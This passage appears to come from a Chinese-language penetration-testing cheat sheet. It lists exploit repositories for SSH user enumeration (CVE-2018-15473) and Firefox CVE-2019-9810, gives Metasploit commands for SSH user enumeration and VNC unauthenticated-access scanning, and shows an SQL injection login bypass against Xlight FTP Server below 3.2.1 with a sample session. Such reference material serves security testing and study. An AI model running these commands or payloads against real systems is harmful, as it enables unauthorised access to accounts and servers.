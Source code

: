 - POC | Payload | exp
    - [trimstray/massh-enum](https://github.com/trimstray/massh-enum)
    - [Rhynorater/CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)

- MSF 模块
    ```bash
    use auxiliary/scanner/ssh/ssh_enumusers
    set rhosts <ip>
    set USER_FILE <aaa.txt>
    run
    ```

### VNC
**未授权访问漏洞**
- MSF 模块
    ```bash
    use auxiliary/scanner/vnc/vnx_none_auth
    set rhosts <ip>
    set threads 50
    run
    ```

---

## 浏览器
**资源**
- [vngkv123/aSiagaming](https://github.com/vngkv123/aSiagaming)

### Firefox
**CVE-2019-9810**
- POC | Payload | exp
    - [0vercl0k/CVE-2019-9810](https://github.com/0vercl0k/CVE-2019-9810)

---

## 文件服务
### ftp
**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段，远程攻击者可以用“OR ‘1’=’1’ ;#”替换用户名绕过认证登录到服务器。

- 示例
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```
